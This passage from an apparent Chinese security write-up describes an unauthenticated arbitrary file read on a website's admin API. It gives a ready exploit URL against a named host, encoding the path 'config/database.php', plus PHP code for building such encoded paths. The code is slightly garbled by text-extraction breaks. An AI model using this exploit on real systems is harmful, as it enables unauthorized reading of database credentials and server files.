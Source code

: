 还有一个网站目录下任意文件读取（无需权限）

[![](assets/1706145764-745e74b7dcf1672ffceaa465e5c94688.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240122214153-0056e232-b92c-1.png)

[http://www.shuadan.com/admin.html?s=admin/api.update/read?encode=2r33322u2x2v1b2s2p382p2q2p372t1a342w34](http://www.shuadan.com/admin.html?s=admin/api.update/read?encode=2r33322u2x2v1b2s2p382p2q2p372t1a342w34)

这个的话比上面那个就稍微麻烦点，因为它传入参数的值是加密了的

我直接定位到 encode 函数放到本地来跑

```bash
<?php
function encode($string)
{
list($chars, $length) = ['', strlen($content = iconv('UTF-8',
'GBK//TRANSLIT', $string))];
for ($i = 0; $i < $length; $i++) $chars .=
str_pad(base_convert(ord($content[$i]), 10, 36), 2, 0, 0);
return $chars;
} v
ar_dump(encode($_GET[1]));
?>
```

尝试去读取 config/database.php 文件

[![](assets/1706145764-2a1dd1ab9fa2bf5d2e3deac70153ae66.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240122214230-16e8097c-b92c-1.png)
